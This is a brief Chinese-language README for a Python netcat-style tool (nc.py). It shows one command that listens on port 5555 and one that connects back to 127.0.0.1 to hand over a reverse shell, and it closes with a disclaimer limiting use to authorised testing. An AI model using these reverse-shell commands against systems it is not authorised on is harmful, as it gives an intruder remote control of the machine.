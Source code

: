 ## 安装

环境

```
python >= 3.7
```

## 使用

监听

```
python3 nc.py -p 5555
```

反弹

```
python3 nc.py -r 127.0.0.1 -p 5555
```

此时监听方收到反弹的shell

退出：exit

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。